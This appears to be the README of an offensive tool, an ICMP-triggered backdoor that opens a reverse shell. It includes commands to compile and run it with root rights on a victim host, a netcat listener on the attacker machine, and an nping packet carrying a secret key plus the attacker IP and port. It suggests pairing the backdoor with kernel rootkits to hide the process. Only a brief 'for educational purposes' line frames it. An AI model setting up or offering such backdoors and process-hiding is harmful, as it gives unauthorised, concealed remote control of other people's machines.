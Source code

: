 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) or [libprocesshider](https://github.com/gianlucaborello/libprocesshider) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

If you don't want to use `nping` to trigger the reverse shell, you can use the `live-off-the-land` version, which just requires `ping` and `nc`.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ sudo ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	        backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```
